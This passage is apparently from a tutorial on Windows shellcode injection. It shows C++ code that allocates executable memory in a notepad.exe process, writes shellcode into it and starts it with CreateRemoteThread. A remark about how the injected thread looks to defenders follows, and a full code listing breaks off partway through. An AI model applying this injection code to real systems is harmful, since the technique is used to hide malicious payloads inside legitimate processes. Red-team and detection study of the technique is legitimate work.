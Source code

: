 Now allocate a region of memory inside the target process using VirtualAllocEx large enough to hold the shellcode, this returns the base address of the allocated memory:

```
//allocate memory
LPVOID ptr = VirtualAllocEx(
process_info->hProcess,
NULL,
shellocde.size(),
MEM_COMMIT,
PAGE_EXECUTE_READWRITE);
```

Now use WriteProcessMemory to write the shellcode to the memory:

```
//copy shellcode
SIZE_T bytesWritten = 0;
WriteProcessMemory(
process_info->hProcess,
ptr,
&shellcode[0],
shellcode.size(),
&bytesWritten);
```

Finally call CreateRemoteThread to execute the shellcode and close all the handles:
```
//create remote thread
DWORD threadId = 0;
HANDLE hThread = CreateRemoteThread(
process_info->hProcess,
NULL,
0,
(LPTHREAD_START_ROUTINE)ptr,
NULL,
0,
&threadId);

//close handles
CloseHandle(hThread);
CloseHandle(process_info->hThread);
CloseHandle(process_info->hProcess);
```

*NOTE* The downside to this API is that it creates a thread whose start address is not backed by a module on disk

Full Code:

```
// create startup info struct
LPSTARTUPINFOW startup_info = new STARTUPINFOW();
startup_info->cb = sizeof(STARTUPINFOW);
startup_info->dwFlags = STARTF_USESHOWWINDOW;

// create process info struct
PPROCESS_INFORMATION process_info = new PROCESS_INFORMATION();

// null terminated command line
wchar_t cmd[] = L"notepad.exe\0";

// create process
CreateProcess(
    NULL,
    cmd,
    NULL,
    NULL,
```